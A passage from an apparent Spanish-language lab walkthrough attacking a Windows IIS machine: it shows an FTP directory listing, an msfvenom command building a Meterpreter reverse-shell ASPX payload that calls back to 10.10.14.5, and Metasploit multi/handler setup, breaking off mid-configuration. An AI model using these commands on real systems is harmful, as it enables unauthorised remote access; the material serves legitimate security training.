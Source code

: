 ```r
230 User logged in.
Remote system type is Windows_NT.


ftp> ls

200 PORT command successful.
125 Data connection already open; Transfer starting.
03-18-17  02:06AM       <DIR>          aspnet_client
03-17-17  05:37PM                  689 iisstart.htm
03-17-17  05:37PM               184946 welcome.png
226 Transfer complete.
```

Notando el `aspnet_client`, nos damos cuenta de que la máquina podrá ejecutar shells `.aspx`. Afortunadamente para nosotros, `msfvenom` puede hacerlo sin ningún problema.

### Generating Payload

```r
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=1337 -f aspx > reverse_shell.aspx

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 341 bytes
Final size of aspx file: 2819 bytes
```

```r
ls

Desktop  Documents  Downloads  my_data  Postman  PycharmProjects  reverse_shell.aspx  Templates
```

Ahora, solo necesitamos navegar a `http://10.10.10.5/reverse_shell.aspx`, y activará el payload `.aspx`. Antes de hacer eso, sin embargo, deberíamos iniciar un listener en msfconsole para que la solicitud de conexión inversa se capture dentro de él.

### MSF - Setting Up Multi/Handler

```r
msfconsole -q 

msf6 > use multi/handler
msf6 exploit(multi/handler) > show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf6 exploit(multi/handler) > set LHOST 10.10.14.5

LHOST => 10.10.14.5


```